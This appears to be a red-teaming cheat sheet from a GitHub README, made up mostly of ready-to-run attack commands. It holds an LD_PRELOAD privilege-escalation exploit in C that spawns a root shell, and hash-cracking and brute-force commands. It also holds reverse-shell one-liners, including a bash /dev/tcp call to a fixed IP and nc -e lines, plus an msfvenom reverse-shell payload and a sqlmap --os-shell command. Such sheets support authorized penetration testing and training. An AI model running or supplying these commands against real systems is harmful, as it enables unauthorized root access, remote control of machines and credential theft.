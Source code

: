 # Red Teaming

## Linux Privilege Escalation

### LD PRELOAD

For sudo -l: `(root) SETENV: NOPASSWD: <vulnerable_program>`

Prepare exploit

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/usr/bin/bash");
}

```

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

And run:

```bash
sudo LD_PRELOAD=/<path_to_exploit>/shell.so <vulnerable_program>
```

## Bruteforce

### Bruteforce subdomains

```bash
gobuster vhost -w <path_to_dict_file> -u http://<url>
```

### Dictionaries

```bash
git clone https://github.com/danielmiessler/SecLists.git
```

### John

Crack zip/rar password

```bash
zip2john <zip_file> > zip.hashes
john --format=zip zip.hashes
```

md5

```bash
john --format=raw-md5 <hash_file>
```

## Reverse shell

### Netcat

Keys:

- -h help
- -v verbose
- -o output file
- -l listening
- -p port
- -s < host > use local IP
- -n Disable DNS & scan num ports over /etc/services
- -w num timeout (seconds)
- -q num time after EOF (seconds)
- -e file execute
- -с command shell command
- -k keep listening (after close session)

Example:

```bash
nc -lvnp <port>
```

### Connect to NetCat

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.42/1443 0>&1"
```
  
```bash
nc -e /bin/bash <your_ip> <port>
```

```cmd
powershell -c cd C:\Users\<user>\Downloads; .\nc64.exe -e cmd.exe <your_ip> <port>
```

### Reverse shell scripts

```bash
git clone https://github.com/BlackArch/webshells.git/
```

### Pretty shell ^^

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
  
### Create connector to nc
  
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<you_ip> LPORT=<you_port> -f elf > r.elf
```

Create http server

```bash
python -m http.server 80
```

## SQL Injection

### sqlmap

Example get os shell (any+query - injection place):

```bash
sqlmap -u 'http://<ip>/<path_to_dangerous_scrip>?<key>=any+query' --cookie="<key>=<value>" --os-shell
```
